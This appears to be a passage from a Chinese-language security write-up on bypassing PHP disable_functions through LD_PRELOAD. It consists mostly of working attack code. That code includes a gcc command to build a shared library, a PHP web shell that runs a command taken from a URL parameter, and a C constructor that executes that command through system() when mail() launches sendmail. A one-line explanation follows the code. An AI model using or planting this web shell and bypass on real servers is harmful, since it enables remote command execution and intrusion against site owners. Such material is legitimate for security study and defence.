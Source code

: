 ```bash
$ gcc -shared -fPIC test.c -o test.so
```

```php
<?php
    echo "<p> <b>example</b>: http://test.com/exp.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/html/exp.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>";
    unlink($out_path);
?>
```

```
url/test.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/html/test.so
```

原理是利用`mail`触发`sendmail`，再触发`getuid`（已被我们的.so劫持），最后执行命令

#### preload

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```
